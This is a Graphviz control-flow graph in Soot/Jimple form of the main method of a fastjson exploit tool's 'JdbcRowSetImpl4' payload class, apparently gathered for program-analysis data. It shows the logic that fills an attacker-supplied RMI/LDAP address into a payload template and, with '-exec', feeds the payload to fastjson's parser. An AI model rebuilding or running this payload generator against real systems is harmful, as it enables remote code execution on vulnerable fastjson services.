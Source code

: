 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: 1 3 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 1 goto $r1 = r0[0];
"
    "Block 1:
[preds: 0 ] [succs: 2 3 ]
$i2 = lengthof r0;
if $i2 == 2 goto $r1 = r0[0];
"
    "Block 2:
[preds: 1 ] [succs: ]
$r9 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usge: java -cp FastjsonExploit-<version>.jar payloads.JdbcRowSetImpl4 <rmi/ldap address>\");
return;
"
    "Block 3:
[preds: 0 1 ] [succs: 4 5 ]
$r1 = r0[0];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2);
if $z0 != 0 goto $r3 = new util.JarFileReader;
"
    "Block 4:
[preds: 3 ] [succs: ]
$r8 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"[*] address is not rmi or ldap\");
return;
"
    "Block 5:
[preds: 3 ] [succs: 6 8 ]
$r3 = new util.JarFileReader;
specialinvoke $r3.<util.JarFileReader: void <init>()>();
r4 = $r3;
r10 = virtualinvoke r4.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\");
r11 = virtualinvoke r10.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2);
$r5 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r5.<java.io.PrintStream: void println(java.lang.String)>(r11);
$i1 = lengthof r0;
if $i1 != 2 goto return;
"
    "Block 6:
[preds: 5 ] [succs: 7 8 ]
$r6 = r0[1];
$z1 = virtualinvoke $r6.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
if $z1 == 0 goto return;
"
    "Block 7:
[preds: 6 ] [succs: 8 ]
staticinvoke <com.alibaba.fastjson.JSON: java.lang.Object parse(java.lang.String)>(r11);
"
    "Block 8:
[preds: 5 6 7 ] [succs: ]
return;
"
    "Block 0:
[preds: ] [succs: 1 3 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 1 goto $r1 = r0[0];
"->"Block 1:
[preds: 0 ] [succs: 2 3 ]
$i2 = lengthof r0;
if $i2 == 2 goto $r1 = r0[0];
";
    "Block 0:
[preds: ] [succs: 1 3 ]
r0 := @parameter0: java.lang.String[];
$i0 = lengthof r0;
if $i0 == 1 goto $r1 = r0[0];
"->"Block 3:
[preds: 0 1 ] [succs: 4 5 ]
$r1 = r0[0];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2);
if $z0 != 0 goto $r3 = new util.JarFileReader;
";
    "Block 1:
[preds: 0 ] [succs: 2 3 ]
$i2 = lengthof r0;
if $i2 == 2 goto $r1 = r0[0];
"->"Block 2:
[preds: 1 ] [succs: ]
$r9 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r9.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usge: java -cp FastjsonExploit-<version>.jar payloads.JdbcRowSetImpl4 <rmi/ldap address>\");
return;
";
    "Block 1:
[preds: 0 ] [succs: 2 3 ]
$i2 = lengthof r0;
if $i2 == 2 goto $r1 = r0[0];
"->"Block 3:
[preds: 0 1 ] [succs: 4 5 ]
$r1 = r0[0];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2);
if $z0 != 0 goto $r3 = new util.JarFileReader;
";
    "Block 3:
[preds: 0 1 ] [succs: 4 5 ]
$r1 = r0[0];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2);
if $z0 != 0 goto $r3 = new util.JarFileReader;
"->"Block 4:
[preds: 3 ] [succs: ]
$r8 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(\"[*] address is not rmi or ldap\");
return;
";
    "Block 3:
[preds: 0 1 ] [succs: 4 5 ]
$r1 = r0[0];
r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>();
$z0 = staticinvoke <util.AddressParser: boolean isAddress(java.lang.String)>(r2);
if $z0 != 0 goto $r3 = new util.JarFileReader;
"->"Block 5:
[preds: 3 ] [succs: 6 8 ]
$r3 = new util.JarFileReader;
specialinvoke $r3.<util.JarFileReader: void <init>()>();
r4 = $r3;
r10 = virtualinvoke r4.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\");
r11 = virtualinvoke r10.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2);
$r5 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r5.<java.io.PrintStream: void println(java.lang.String)>(r11);
$i1 = lengthof r0;
if $i1 != 2 goto return;
";
    "Block 5:
[preds: 3 ] [succs: 6 8 ]
$r3 = new util.JarFileReader;
specialinvoke $r3.<util.JarFileReader: void <init>()>();
r4 = $r3;
r10 = virtualinvoke r4.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\");
r11 = virtualinvoke r10.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2);
$r5 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r5.<java.io.PrintStream: void println(java.lang.String)>(r11);
$i1 = lengthof r0;
if $i1 != 2 goto return;
"->"Block 6:
[preds: 5 ] [succs: 7 8 ]
$r6 = r0[1];
$z1 = virtualinvoke $r6.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
if $z1 == 0 goto return;
";
    "Block 5:
[preds: 3 ] [succs: 6 8 ]
$r3 = new util.JarFileReader;
specialinvoke $r3.<util.JarFileReader: void <init>()>();
r4 = $r3;
r10 = virtualinvoke r4.<util.JarFileReader: java.lang.String read(java.lang.String)>(\"JdbcRowSetImpl4.tpl\");
r11 = virtualinvoke r10.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"###RMI_LDAP_ADDRESS###\", r2);
$r5 = <java.lang.System: java.io.PrintStream out>;
virtualinvoke $r5.<java.io.PrintStream: void println(java.lang.String)>(r11);
$i1 = lengthof r0;
if $i1 != 2 goto return;
"->"Block 8:
[preds: 5 6 7 ] [succs: ]
return;
";
    "Block 6:
[preds: 5 ] [succs: 7 8 ]
$r6 = r0[1];
$z1 = virtualinvoke $r6.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
if $z1 == 0 goto return;
"->"Block 7:
[preds: 6 ] [succs: 8 ]
staticinvoke <com.alibaba.fastjson.JSON: java.lang.Object parse(java.lang.String)>(r11);
";
    "Block 6:
[preds: 5 ] [succs: 7 8 ]
$r6 = r0[1];
$z1 = virtualinvoke $r6.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\");
if $z1 == 0 goto return;
"->"Block 8:
[preds: 5 6 7 ] [succs: ]
return;
";
    "Block 7:
[preds: 6 ] [succs: 8 ]
staticinvoke <com.alibaba.fastjson.JSON: java.lang.Object parse(java.lang.String)>(r11);
"->"Block 8:
[preds: 5 6 7 ] [succs: ]
return;
";
}
